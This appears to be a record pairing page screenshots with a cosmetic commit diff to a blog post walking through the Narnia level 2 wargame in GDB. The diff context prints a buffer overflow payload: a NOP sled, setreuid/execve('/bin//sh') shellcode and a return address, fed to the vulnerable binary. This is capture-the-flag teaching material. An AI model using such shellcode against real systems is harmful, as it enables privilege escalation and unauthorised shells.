

Before and after one commit to karthik-balu/karthik-balu.github.io, a Jekyll site: the page built from _posts/2018-06-14-Cybersecurity-GDB.html, in a window 1280 px wide and 1400 px high, scrolled down 1518 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Cosmetics

```diff
--- a/_posts/2018-06-14-Cybersecurity-GDB.html
+++ b/_posts/2018-06-14-Cybersecurity-GDB.html
@@ -65,6 +65,7 @@ Enter narnia2 with password obtained from Level 1.(Refer <a href="https://karthi
         <code>
         gdb /narnia/narnia2
         (gdb)disas main
+        (gdb) quit
       </code>
       </pre>
       You can see the following snap:
@@ -75,6 +76,7 @@ Enter narnia2 with password obtained from Level 1.(Refer <a href="https://karthi
         <code>
         gdb --args /narnia/narnia2 $(python -c 'print "\x41"*144'
         (gdb) run
+        (gdb) quit
       </code>
       </pre>
 
@@ -85,7 +87,8 @@ Enter narnia2 with password obtained from Level 1.(Refer <a href="https://karthi
         <code>
         gdb --args /narnia/narnia2 $(python -c 'print "\x90"*108+"\x6a\x31\x58\x99\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80"+"\x00\x00\x00\x00"')
         (gdb) run
-        x/150x $esp
+        (gdb) x/150x $esp
+        (gdb) quit
       </code>
       </pre>
       Snap: <br>
```
